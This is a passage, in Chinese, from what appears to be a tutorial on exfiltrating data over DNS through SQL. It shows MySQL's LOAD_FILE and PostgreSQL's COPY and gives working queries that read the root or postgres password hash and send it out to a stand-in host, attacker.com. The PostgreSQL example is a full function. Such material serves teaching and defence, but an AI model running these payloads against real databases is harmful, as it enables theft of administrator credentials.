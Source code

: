 以下是使用MySQL的函数LOAD_FILE()将系统管理员的密码通过DNS解析机制传输的例子： 

```
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root'     LIMIT 1),'.attacker.com\\foobar'));

```

4.4 PostgreSQL
--------------

* * *

 4.4.1 COPY

PostgreSQL的声明COPY用于在文件系统的文件和表之间拷贝数据：

```
 COPY <table>(<column>,...) FROM '<path>'

```

例如，为了将C:\Windows\Temp\users.txt的文件内容拷贝到含有唯一列names的users表中 运行： 

```
COPY users(names) FROM 'C:\\Windows\\Temp\\users.txt'     

```

4.4.2例子 以下是使用PostgreSQL的声明COPY将系统管理员的密码通过DNS解析机制传输的例子：

```
 DROP TABLE IF EXISTS table_output;     

CREATE TABLE table_output(content text);

 CREATE OR REPLACE FUNCTION temp_function()     

RETURNS VOID AS $$

 DECLARE exec_cmd TEXT;     

DECLARE query_result TEXT;     

BEGIN     SELECT INTO query_result (SELECT passwd FROM pg_shadow WHERE usename='postgres');     

exec_cmd := E'COPY table_output(content)FROM E\'\\\\\\\\'||query_result||E'.attacker.com\\\\foobar.txt\'';

 EXECUTE exec_cmd;     END;     

$$ LANGUAGE plpgsql SECURITY DEFINER;

 SELECT temp_function();

```
